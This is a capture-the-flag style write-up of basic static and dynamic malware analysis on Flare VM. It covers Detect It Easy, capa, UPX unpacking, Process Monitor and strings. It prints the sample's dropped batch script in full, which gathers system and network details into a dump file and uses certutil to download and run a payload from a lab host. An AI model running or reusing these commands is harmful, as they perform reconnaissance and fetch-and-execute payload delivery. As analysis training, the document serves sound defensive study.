







# Forensic McBlue to the REVscue! - Malware Analysis <!-- markdownlint-disable-line MD025 MD022-->
{: .no_toc}

## Table of content <!-- markdownlint-disable-line MD022 -->
{: .no_toc .text-delta}

- TOC
{:toc }

## Description

A room covering basics of mmalware analysis utilizing Flare VM (Windows)

## Basic Static Analysis

Static Analysis is a way of analysing a malware sample without executing the code.

### Detect It Easy

Detect it easy provides information about a file like architecture, headers, packer, contained strings, etc.

- navigate to the malwave -> right-click -> detect it easy





> Packed with UPX

### CAPA (1)

CAPA detects capabilities in executable files. May it be for the installation of a service, invocation of network connections, registry modifications and such.

- `capa mysterygift`:

```console
C:\Users\Administrator>cd "Desktop\Malware Sample"
C:\Users\Administrator\Desktop\Malware Sample>capa mysterygift
loading : 100%|████████████████████████████████████████████████████████████| 485/485 [00:00<00:00, 1633.69     rules/s]
matching: 100%|██████████████████████████████████████████████████████████████████| 3/3 [00:02<00:00,  1.11 functions/s]
WARNING:capa:--------------------------------------------------------------------------------
WARNING:capa: This sample appears to be packed.
WARNING:capa:
WARNING:capa: Packed samples have often been obfuscated to hide their logic.
WARNING:capa: capa cannot handle obfuscation well. This means the results may be misleading or incomplete.
WARNING:capa: If possible, you should try to unpack this input file before analyzing it with capa.
WARNING:capa:
WARNING:capa: Use -v or -vv if you really want to see the capabilities identified by capa.
WARNING:capa:--------------------------------------------------------------------------------
```

- `del mysterygift.viv` delete capa file, if not capa will just open the last scan

### UPX

Ultimate Packer for eXecutables.

- Unpack the file `upx -d mysterygift`:



### CAPA (2)

- `capa mysterygift`:



## Dynamic Analysis

Dynamic Analysis mainly focuses on understanding the malware by executing it in a safe environment, such as a Sandbox.

### Process Monitor

- Add 'exe' extension to file name
- Add PrcMon filter : "Process name contains mysterygift"
  


- run "mysterygift.exe"
- toggle on "Show Registry Activity"
- exclude:
  - RegOpenKey
  - RegQueryValue
  - RegQueryKey
  - RegCloseKey





Contetnt of wishes.bat:

```bat
::===============================================================
::     /)/)/) /).-')
::    ////((.'_.--'   .(\(\(\                   n/(/.')_         .
::   ((((_/ .'      .-`)))))))                  `-._ ('.'        \`(\
::  (_._ ` (         `.   (/ |                      \ (           `-.\
::      `-. \          `-.  /                        `.`.           \ \
::         `.`.          | /                /)         \ \           | L
::           `.`._.      ||_               (()          `.\          ) F
::   (`._      `. <    .'.-'                \`-._____    ||        .' /
::    `(\`._.._(\(\)_.'.'-------------.___   `-.(`._ `-./ /     _.' .'
::      (.-.| \_`.__.-<     `.    . .-'   `-.   _> `-._((`.__.-'_.-'
::          (.--'   ' |    \ \     /| \.-./ |\ `-.   _.'>.___,-'`.
::             (  o  <      |     |  `o   o'  |  /(`'.-'   --.    \
::           .'     /      .'   _ |   |   |   |  ( .'/  o .-'   \  |
::           (__.-.`-._  -'    '   \  \   /  /    ' /    _/      | J
::                 \_  `.      _.__.L |   | J      (  .'\`.    _/-./
::                   `-<  .-L|'`-|  ||\\V/ ||       `'   L \  /   /
::                      |J  ||    \ ||||  |||            |  |_|  )
::                      ||  ||     )||||  |||            || / ||J
::                      (|  (|    / |||)  (||            |||  |||
::                      ||  ||   / /||||  |||            |(|  |||
::                      ||  ||  / / ||||  |||            |||  |||
::_______.------.______/ |_/ |_/_|_/// |__| \\__________// |--( \\---------
::# Art by Joris Bellenger
::
::
::███████╗░█████╗░░██████╗████████╗███████╗██████╗░  ███████╗░██████╗░░██████╗░  ░█████╗░███╗░░██╗
::██╔════╝██╔══██╗██╔════╝╚══██╔══╝██╔════╝██╔══██╗  ██╔════╝██╔════╝░██╔════╝░  ██╔══██╗████╗░██║
::█████╗░░███████║╚█████╗░░░░██║░░░█████╗░░██████╔╝  █████╗░░██║░░██╗░██║░░██╗░  ██║░░██║██╔██╗██║
::██╔══╝░░██╔══██║░╚═══██╗░░░██║░░░██╔══╝░░██╔══██╗  ██╔══╝░░██║░░╚██╗██║░░╚██╗  ██║░░██║██║╚████║
::███████╗██║░░██║██████╔╝░░░██║░░░███████╗██║░░██║  ███████╗╚██████╔╝╚██████╔╝  ╚█████╔╝██║░╚███║
::╚══════╝╚═╝░░╚═╝╚═════╝░░░░╚═╝░░░╚══════╝╚═╝░░╚═╝  ╚══════╝░╚═════╝░░╚═════╝░  ░╚════╝░╚═╝░░╚══╝
::
::██╗░░██╗░░░░░░███╗░░░███╗░█████╗░░██████╗██╗  
::╚██╗██╔╝░░░░░░████╗░████║██╔══██╗██╔════╝██║  
::░╚███╔╝░█████╗██╔████╔██║███████║╚█████╗░██║  
::░██╔██╗░╚════╝██║╚██╔╝██║██╔══██║░╚═══██╗╚═╝  
::██╔╝╚██╗░░░░░░██║░╚═╝░██║██║░░██║██████╔╝██╗  
::╚═╝░░╚═╝░░░░░░╚═╝░░░░░╚═╝╚═╝░░╚═╝╚═════╝░╚═╝  
::
::████████╗██╗░░██╗░█████╗░███╗░░██╗██╗░░██╗░██████╗  ███████╗░█████╗░██████╗░
::╚══██╔══╝██║░░██║██╔══██╗████╗░██║██║░██╔╝██╔════╝  ██╔════╝██╔══██╗██╔══██╗
::░░░██║░░░███████║███████║██╔██╗██║█████═╝░╚█████╗░  █████╗░░██║░░██║██████╔╝
::░░░██║░░░██╔══██║██╔══██║██║╚████║██╔═██╗░░╚═══██╗  ██╔══╝░░██║░░██║██╔══██╗
::░░░██║░░░██║░░██║██║░░██║██║░╚███║██║░╚██╗██████╔╝  ██║░░░░░╚█████╔╝██║░░██║
::░░░╚═╝░░░╚═╝░░╚═╝╚═╝░░╚═╝╚═╝░░╚══╝╚═╝░░╚═╝╚═════╝░  ╚═╝░░░░░░╚════╝░╚═╝░░╚═╝
::
::░██████╗░█████╗░██╗░░░██╗██╗███╗░░██╗░██████╗░  ░██████╗░█████╗░███╗░░██╗████████╗░█████╗░██╗░██████╗
::██╔════╝██╔══██╗██║░░░██║██║████╗░██║██╔════╝░  ██╔════╝██╔══██╗████╗░██║╚══██╔══╝██╔══██╗╚█║██╔════╝
::╚█████╗░███████║╚██╗░██╔╝██║██╔██╗██║██║░░██╗░  ╚█████╗░███████║██╔██╗██║░░░██║░░░███████║░╚╝╚█████╗░
::░╚═══██╗██╔══██║░╚████╔╝░██║██║╚████║██║░░╚██╗  ░╚═══██╗██╔══██║██║╚████║░░░██║░░░██╔══██║░░░░╚═══██╗
::██████╔╝██║░░██║░░╚██╔╝░░██║██║░╚███║╚██████╔╝  ██████╔╝██║░░██║██║░╚███║░░░██║░░░██║░░██║░░░██████╔╝
::╚═════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝╚═╝░░╚══╝░╚═════╝░  ╚═════╝░╚═╝░░╚═╝╚═╝░░╚══╝░░░╚═╝░░░╚═╝░░╚═╝░░░╚═════╝░
::
::░██████╗░█████╗░░█████╗░
::██╔════╝██╔══██╗██╔══██╗
::╚█████╗░██║░░██║██║░░╚═╝
::░╚═══██╗██║░░██║██║░░██╗
::██████╔╝╚█████╔╝╚█████╔╝
::╚═════╝░░╚════╝░░╚════╝░
::===============================================================
:: start
ECHO OFF
hostname >> %APPDATA%\dump
whoami /all>> %APPDATA%\dump
ipconfig >> %APPDATA%\dump
netstat -ano >> %APPDATA%\dump
dir %USERPROFILE%\Documents >> %APPDATA%\dump
dir %USERPROFILE%\Downloads >> %APPDATA%\dump
dir %USERPROFILE%\Downloads >> %APPDATA%\dump
certutil -urlcache -split -f http://bandityeti.thm/phonehome %APPDATA%\surprise.exe
%APPDATA%\surprise.exe
:: end
```

### Strings

Strings can be used to search for ANSI and Unicode strings in binary images.

- `strings mysterygift.exe | grep http://`:

```console
@http://virustotal.com
@http://bestfestivalcompany.thm/favicon.ico 
```

---
